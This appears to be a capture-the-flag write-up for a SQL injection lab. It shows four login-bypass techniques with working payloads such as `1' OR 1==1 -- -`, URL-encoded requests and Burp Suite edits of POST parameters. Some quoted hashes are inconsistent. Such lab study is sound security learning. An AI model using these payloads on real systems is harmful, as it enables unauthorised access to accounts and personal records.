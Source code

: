 # SQL Injection 1:Input Box Non-string
- Uploaded a dummy data to the input box, and the query received was 

```sql
SELECT uid, name, profileID, salary, passportNr, email, nickName, password FROM usertable WHERE profileID=admin AND password = '8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918'
```
- We can see that in the input box there is no sanitization and profileID is not a string. We can easily bypass this authentication with `1 OR 1==1-- -`

> 1 OR 1==1 : This statement will set code output to True
> -- - : This will comment out rest of the command


- The new SQL statement will be

```sql
SELECT uid, name, profileID, salary, passportNr, email, nickName, password FROM usertable WHERE profileID=1 OR 1==1 -- - AND password = 'c3aead0d0872ccceaf6cdd7d6229a69368ed71294d3098241aa6e53932698d18'
```


# SQL Injection 2: Input Box String
- Uploaded a dummy data to the input and the data received was 

```sql
SELECT uid, name, profileID, salary, passportNr, email, nickName, password FROM usertable WHERE profileID = 'admin' AND password = '8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918'
```

- We can bypass this authentication with `1' OR 1==1 -- -`

> 1' : This statement will escape the parenthesis for profileID
> OR 1==1 : This will output query as True.
> -- - : This will comment out rest of the query

- New query will be

```sql
SELECT uid, name, profileID, salary, passportNr, email, nickName, password FROM usertable WHERE profileID = '1' OR 1==1 -- -' AND password = 'a665a45920422f9d417e4867efdc4fb8a04a1f3fff1fa07e998e86f7f7a27ae3'
```

# SQL Injection 3: URL Injection
- When we add dummy data to the login page it responds with two parameters profileID and password. 

```console
http://10.10.171.219:5000/sesqli3/login?profileID=admin&password=admin
```
- The SQL query will be 

```SQL
SELECT uid, name, profileID, salary, passportNr, email, nickName, password FROM usertable WHERE profileID='admin' AND password='8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918'
```

- Change user parameter to `1' OR 1==1 -- -` 

- New HTTP request will be

```console
http://10.10.171.219:5000/sesqli3/login?profileID=1'%20OR%201==1%20--%20-&password=admin
```
- New SQL query will be 

```SQL
SELECT uid, name, profileID, salary, passportNr, email, nickName, password FROM usertable WHERE profileID='1' OR 1==1 -- -' AND password='8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918'
```

# SQL Injection 4: POST Injection

- We can see at the source code of the login page it does not allow special characters so we cannot add our SQL Injection command.

```javascript
function validateform() {
        var profileID = document.inputForm.profileID.value;
        var password = document.inputForm.password.value;

        if (/^[a-zA-Z0-9]*$/.test(profileID) == false || /^[a-zA-Z0-9]*$/.test(password) == false) {
            alert("The input fields cannot contain special characters");
            return false;
        }
        if (profileID == null || password == null) {
            alert("The input fields cannot be empty.");
            return false;
        }
    }
```
- Start BurSuite and intercept the network.
- Add dummy data to the login page.
![Data intercepted from burpSuite](https://github.com/divu050704/assets-holder/raw/main/tryhackme-screenshots/1.png)
- The Created SQL Query will be
```SQL
SELECT uid, name, profileID, salary, passportNr, email, nickName, password FROM usertable WHERE profileID='admin' AND password='8c6976e5b5410415bde9-8bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918'
```
- Change Request Body Parameter for profileID to `1' OR 1==1 -- -`
![New data](https://github.com/divu050704/assets-holder/raw/main/tryhackme-screenshots/2.png)
- Now forward the request and you will be in.
- New SQL query will be 

```SQL
SELECT uid, name, profileID, salary, passportNr, email, nickName, password FROM usertable WHERE profileID = '1' OR 1==1 -- -' AND password = '8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918'
```
